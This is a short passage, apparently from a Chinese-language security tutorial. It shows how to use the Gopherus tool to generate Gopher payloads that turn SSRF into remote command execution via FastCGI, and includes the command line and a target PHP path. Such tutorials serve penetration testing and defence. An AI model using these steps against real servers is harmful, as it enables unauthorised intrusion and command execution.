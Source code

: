 ### 利用 Gopherus 攻击

-   项目地址：[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

[Gopherus](https://github.com/tarunkant/Gopherus) 这个工具相比上一个更加方便一下，该工具能生成Gopher有效负载，用来利用SSRF进行RCE：

[![](assets/1698897074-d41c92d8bbc6d92b635e69a3a58eab30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134740-907396ee-b2e5-1.png)

下面我们就利用这个工具来执行命令：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 # 这里输入的是一个已知存在的php文件
id
```

[![](assets/1698897074-7a45055feb718e56d2934f7948de981f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134741-91008b1c-b2e5-1.png)
